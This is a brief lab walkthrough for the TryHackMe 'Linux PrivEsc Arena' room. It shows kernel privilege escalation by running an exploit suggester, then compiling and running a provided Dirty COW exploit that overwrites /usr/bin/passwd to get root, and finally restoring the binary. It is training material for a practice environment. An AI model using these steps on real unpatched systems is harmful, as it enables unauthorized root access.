 # Linux PrivEsc Arena

**Room Link:** [https://tryhackme.com/room/linuxprivescarena](https://tryhackme.com/room/linuxprivescarena)



## Privilege Escalation - Kernel Exploits

In command prompt type:&#x20;

**Victim**

```
/home/user/tools/linux-exploit-suggester/linux-exploit-suggester.sh
```

From the output, notice that the OS is vulnerable to “dirtycow”.

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

### Exploitation

Linux VM

In command prompt type:&#x20;

**Victim**

```
gcc -pthread /home/user/tools/dirtycow/c0w.c -o c0w
```

In command prompt type:&#x20;

**Victim**

```
./c0w
```

Disclaimer: This part takes 1-2 minutes - Please allow it some time to work.

In command prompt type:&#x20;

**Victim**

```
passwd
```

In command prompt type:&#x20;

**Victim**

```
id
```

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

From here, either copy /tmp/passwd back to /usr/bin/passwd or reset your machine to undo changes made to the passwd binary

**Victim**

```
ls -lah /usr/bin/passwd 
rm -f /usr/bin/passwd   
cp /tmp/bak /usr/bin/passwd 
ls -lah /usr/bin/passwd 
```

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

